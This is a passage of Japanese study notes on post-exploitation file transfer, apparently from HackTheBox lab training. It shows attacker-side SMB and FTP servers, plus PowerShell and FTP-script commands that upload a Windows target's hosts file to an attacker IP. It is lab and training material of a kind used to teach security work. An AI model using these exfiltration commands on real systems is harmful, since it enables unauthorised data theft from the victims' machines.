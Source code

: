 ##### 攻撃者側
```sh
pwd
```

```sh
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData <pwdの結果>
```


#### FTPアップロード
##### 攻撃者側
- FTPを使用してファイルをアップロードすることは、ファイルのダウンロードと非常によく似ている
- PowerShell または FTP クライアントを使用して操作を完了できる
- Python モジュール pyftpdlib を使用して FTP サーバーを開始する前に、クライアントが攻撃ホストにファイルをアップロードできるようにするオプション --write を指定する必要がある
```shell
sudo python3 -m pyftpdlib --port 21 --write
```
##### ターゲット側
それでは、PowerShellのアップロード機能を使用して、FTPサーバーにファイルをアップロードする
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

#### FTPクライアントがファイルをアップロードするためのコマンドファイルを作成
```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

### Linux

#### webアップロード(HTTPS)
##### ターゲット側
httpsサーバーをターゲット側で立てるってことだね
webサーバーの開始
```shell-session
sudo python3 -m pip install --user uploadserver
```
